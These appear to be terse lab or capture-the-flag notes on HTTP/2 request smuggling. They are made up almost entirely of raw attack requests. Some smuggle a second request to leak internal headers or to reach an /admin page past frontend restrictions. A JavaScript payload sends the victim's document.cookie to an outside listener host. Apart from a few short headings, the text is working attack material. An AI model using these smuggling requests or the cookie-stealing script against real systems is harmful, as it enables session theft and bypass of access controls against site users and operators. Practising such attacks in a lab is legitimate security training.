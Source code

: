 




```HTTP
POST / HTTP/2
Host: 10.10.93.232:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Length: 0

GET /post/like/12315198742342 HTTP/1.1
X: f
```




Leaking internal headers 

header foo
```
bar
Host: 10.10.95.208:8100

POST /hello HTTP/1.1
Content-Length: 300
Host: 10.10.95.208:8100
Content-Type: application/x-www-form-urlencoded

q=
```

![](../../../Pasted%20image%2020250823002720.png)

bypass frontend restrictions
```
bar
Host: 10.10.95.208:8100

GET /admin HTTP/1.1
X-fake: a
```



------
```
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
       document.getElementById("demo").innerHTML = xhttp.responseText;
    }
};
xhttp.open("GET", "https://10.8.150.149:8002/?c=" + document.cookie, true);
xhttp.send();

```

```GET /static/text.js HTTP/2
Host: 10.10.95.208:8100
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Pragma: no-cache
Foo


```
